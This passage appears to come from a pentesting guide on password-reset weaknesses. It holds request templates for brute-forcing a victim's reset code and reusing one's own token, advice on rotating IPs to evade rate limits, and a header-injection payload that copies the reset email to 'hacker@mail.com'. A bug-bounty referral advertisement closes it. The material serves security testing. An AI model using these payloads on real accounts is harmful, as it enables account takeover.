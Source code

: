 ```php
POST /resetPassword
[...]
email=victim@email.com&code=$BRUTE$
```

* Use IP-Rotator on burpsuite to bypass IP based ratelimit.

### Reference

* https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

### Try Using Your Token <a href="#10-try-using-your-token" id="10-try-using-your-token"></a>

* Try adding your password reset token with victim’s Account

```php
POST /resetPassword
[...]
email=victim@email.com&code=$YOUR_TOKEN$
```

### Reference

* https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

## Session I**nvalidation** in Logout/Password Reset

When a user **logs out or reset his password**, the current session should be invalidated.\
Therefore, **grab the cookies** while the user is logged in, **log out**, and **check** if the **cookies** are still **valid**.\
Repeat the process **changing the password** instead of logging out.

## Reset Token expiration Time

The **reset tokens must have an expiration time**, after it the token shouldn't be valid to change the password of a user.

## Extra Checks

* Use username@burp\_collab.net and analyze the callback
* User carbon copy email=victim@mail.com%0a%0dcc:hacker@mail.com
* Long password (>200) leads to DoS
* Append second email param and value



<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FfinO3sjcfKcruYYBafKC%2Fimage.png?alt=media&#x26;token=7bba2ebb-a679-4357-a859-bff2d9c5136a" alt=""><figcaption></figcaption></figure>

​Did you know that crypto projects pay more bounty rewards than their web2 counterparts?\
This [**crypto bounty alone**](https://hackenproof.com/jungle/jungle-smart-contract) is worth $1.000.000!\
Check out the [**top-paying bounties**](https://hackenproof.com/programs) among crypto projects.\
[**Sign up on HackenProof**](https://hackenproof.com/register?referral_code=i_E6M25i_Um9gB56o-XsIA) to get rewarded without delays and become the web3 hacker legend.

{% embed url="https://hackenproof.com/register?referral_code=i_E6M25i_Um9gB56o-XsIA" %}

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
